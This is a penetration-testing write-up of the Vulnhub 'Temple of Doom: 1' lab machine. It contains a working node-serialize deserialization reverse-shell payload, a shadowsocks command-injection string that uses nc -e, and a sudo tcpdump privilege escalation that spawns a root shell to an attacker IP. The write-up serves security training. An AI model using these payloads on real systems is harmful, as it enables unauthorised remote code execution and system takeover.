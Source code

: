 ```yaml
---
layout: post
title:  "[Vulnhub]Temple of Doom: 1 Write-up"
subtitle: ""
author: Mars Cheng
tags: 
- Penetration Testing
- Vulnhub
- OSCP
- Write-up
---
```

## Overview

>This is a vulnerable machine from vulnhub, and the write-up refers some internet resources. If any 
mistake or suggestion, please let we konw. Thanks.


## Walkthrough
1. Information gathering 
2. Discovering Node.js node-serialize remote code execution(CVE-2017-5941)
3. Discovering shadowsocks command injection 
4. Discovering insecure file system permissions 
5. Get root priviilage

### 1. Information gathering

As usual, we firstly use Nmap to scan the machine which tool can discover machine port status, service, and version. 

We find the port 666 open and provide Node.js Express framework service.

```java
[18:47:31] root:~ # nmap -A 192.168.1.103
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-18 18:47 CST
Nmap scan report for 192.168.1.103
Host is up (0.0013s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)
666/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 08:00:27:BB:24:1C (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   1.30 ms 192.168.1.103

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.90 seconds
```

### 2. Discovering Node.js node-serialize remote code execution(CVE-2017-5941)

We browse web service, and find the SyntaxError about node-serialize. So we google it, and find CVE-2017-5941 vulnerability.

<div style="text-align: center">
<img src="https://i.imgur.com/eETtWpY.png"/>
</div>
<br>


```
SyntaxError: Unexpected token F in JSON at position 79
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/nodeadmin/.web/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/nodeadmin/.web/server.js:12:29
    at Layer.handle [as handle_request] (/home/nodeadmin/.web/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/nodeadmin/.web/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/nodeadmin/.web/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/nodeadmin/.web/node_modules/express/lib/router/layer.js:95:5)
    at /home/nodeadmin/.web/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/nodeadmin/.web/node_modules/express/lib/router/index.js:335:12)
    at next (/home/nodeadmin/.web/node_modules/express/lib/router/index.js:275:10)
   ```
   
 Then we open Burp Suite tool, and the cookie profile is encoded by Base64.
 
 
<div style="text-align: center">
<img src="https://i.imgur.com/04aFYwy.png"/>
</div>
<br>

Decode it 
```json
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}
  ```

<div style="text-align: center">
<img src="https://i.imgur.com/0XYybpY.png"/>
</div>
<br>

And we change the username from Admin to mars and base64 encode it.

![](https://i.imgur.com/zvnyczN.png)

![](https://i.imgur.com/4fhai0e.png)

![](https://i.imgur.com/RzNpMrH.png)

When receiving response "Hello mars", we confirm the username is a injection point, and we use nodejsshell to generate payload.

![](https://i.imgur.com/gjXan65.png)

We add the payload to username and base64 encode.

```javascript
# Node.js vulnerability 
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```


```json
{"username":"_$$ND_FUNC$$_function({eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,49,46,49,48,52,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```
![](https://i.imgur.com/mwLUWyd.png)


![](https://i.imgur.com/ulWH73b.png)

We open terminal and use nc command, and confirm the reverse shell success.

```java
[19:14:47] root:~ # nc -lvp 4444
listening on [any] 4444 ...


192.168.1.103: inverse host lookup failed: Unknown host
connect to [192.168.1.104] from (UNKNOWN) [192.168.1.103] 45252
Connected!
id
uid=1001(nodeadmin) gid=1001(nodeadmin) groups=1001(nodeadmin)
pwd
/home/nodeadmin

```
![](https://i.imgur.com/DQopgJb.png)

### 3. Discovering shadowsocks command injection 

We check the system process and find the ss-manager of fireman is working. In exploit-DB, we find exploit code and shown as follow:

```java
[nodeadmin@localhost home]$ ps aux | grep nodeadmin
ps aux | grep nodeadmin
nodeadm+   816  0.0  0.8 897512 36476 ?        Sl   08:09   0:00 /bin/node /home/nodeadmin/.web/server.js
nodeadm+   965  0.0  0.0 213788  1040 pts/0    S+   08:17   0:00 grep --color=auto nodeadmin
[nodeadmin@localhost home]$ ps aux | grep fireman
ps aux | grep fireman
root       825  0.0  0.1 301464  4504 ?        S    08:09   0:00 su fireman -c /usr/local/bin/ss-manager
fireman    836  0.0  0.0  37060  3784 ?        Ss   08:09   0:00 /usr/local/bin/ss-manager
nodeadm+   967  0.0  0.0 213788   968 pts/0    S+   08:17   0:00 grep --color=auto fireman
```

We open terminal and use nc command.

```
[nodeadmin@localhost home]$ nc -u 127.0.0.1 8839
nc -u 127.0.0.1 8839
add: {"server_port":8003, "password":"test", "method":"||nc -e /bin/sh 192.168.1.104 4445||"}
add: {"server_port":8003, "password":"test", "method":"||nc -e /bin/sh 192.168.1.104 4445||"}
```
![](https://i.imgur.com/lAN4jK7.png)

![](https://i.imgur.com/Y6Qx2zG.png)

### 4. Discovering insecure file system permissions 

When we get reverse shell in port 4445, we are fireman.
We use sudo command to list the commands we can use, and find the tcpdump can be used. 


```
[fireman@localhost /]$ sudo -l
sudo -l
Matching Defaults entries for fireman on localhost:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fireman may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/iptables
    (ALL) NOPASSWD: /usr/bin/nmcli
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```



![](https://i.imgur.com/XsJ2Qhy.png)

Use tcpdump to get reverse shell.

```java
[fireman@localhost tmp]$ echo "nc -e /bin/bash 192.168.1.104 4446" > shell 
echo "nc -e /bin/bash 192.168.1.104 4446" > shell 
[fireman@localhost tmp]$ 

[fireman@localhost tmp]$ ls
ls
shell
systemd-private-619e6ead767c4e61b5d99fcd576d5b24-chronyd.service-CpZMEH
systemd-private-619e6ead767c4e61b5d99fcd576d5b24-rtkit-daemon.service-3pI3Q1

[fireman@localhost tmp]$ chmod 777 shell
chmod 777 shell
[fireman@localhost tmp]$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell -Z root
<i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell -Z root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
11 packets received by filter
0 packets dropped by kernel
```

![](https://i.imgur.com/SRv6Ggv.png)

### 5. Get root priviilage

Open another terminal and use nc command.
```java
nc -vlp 4446 
```

![](https://i.imgur.com/lUWYaNT.png)




### Reference

[1] Vulhub <https://www.vulnhub.com/entry/temple-of-doom-1,243/>
[2] Node.js exploit <https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf>
[3] <https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py>
[4] <https://www.exploit-db.com/exploits/43006/> 
[5] <http://seclists.org/tcpdump/2010/q3/68>

